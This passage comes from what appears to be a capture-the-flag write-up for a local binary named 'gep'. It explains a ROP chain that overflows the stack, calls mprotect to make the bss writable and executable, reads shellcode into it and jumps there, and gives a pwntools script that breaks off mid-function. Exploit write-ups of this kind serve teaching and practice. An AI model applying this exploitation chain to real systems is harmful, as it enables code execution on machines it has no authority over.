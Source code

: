 ```py

payload = reachRIP + payload

visualize(payload)
```

Now, the program will wait for our input, and will write it in the stack, before RSP.

At this point, we can freely write whatever we want and we are not limited at all.

I chose to call `mprotect` on the bss, and then write shellcode there and jump to there.

Firstly, we need to calculate the amount of padding needed to reach the return pointer. I played with gdb and noticed that we need to write `0x670` bytes to reach it.

Then, we need to set `RDI` to point at the bss, `RSI` to be `page_size=0x1000`, and `RDX` to be `PROT_EXEC|PROT_WRITE|PROT_READ=0x7`.

```py
payload = b"A" * (0x670)
payload += p64(POP_RDI) + p64(0x4e6000) + p64(POP_RSI) + p64(0x1000) + p64(POP_RDX_RCX) + p64(0x7) + p64(0) + p64(elf.sym.mprotect) #mprotect bss
```

Then , we need to write our shellcode into it. I called the `read` syscall, with `RDI=0=stdin`, `RSI=bss`, and `RDX>len(shellcode)`.

```py
payload += p64(POP_RDI) + p64(0) + p64(POP_RSI) + p64(0x4e6000) + p64(POP_RDX_RCX) + p64(0x100) + p64(0) + p64(SYSCALL) #call read on bss
```

And lastly, we just need to add the address of the bss, so that it will jump there after the `read`.

Final script:

```py
from pwn import *
context.arch = 'amd64'
p = process("./gep")
elf = ELF("./gep")
def visualize(pos):
    p.recvuntil("Quit.")
    p.sendline('1')
    p.recvuntil(": ")
    p.sendline(pos)

def customize(new_set):
    p.recvuntil("Quit.")
    p.sendline('2')
    p.recvuntil(".")
    p.send(new_set)


MOV_RSI_RDI = 0x00000000004b2ac8# mov rsi, rdi; do-stuff; ret
POP_RDI = 0x0000000000402acf # pop rdi
POP_RDX_RCX = 0x00000000004a458b # pop rdx; pop rcx; ret
SYSCALL = 0x0000000000458939 # syscall; ret

default_pieces = 'KQRBNP kqrbnp *'
new = '\xcf\x2a\x40\xc8X\x4bX\x8b\x45\x4aX\x89\x39X\x00'

def convert_chain(chain):
    fixed = ''
    for i in chain:
        idx = new.index(chr(i))
        fixed += default_pieces[idx]

```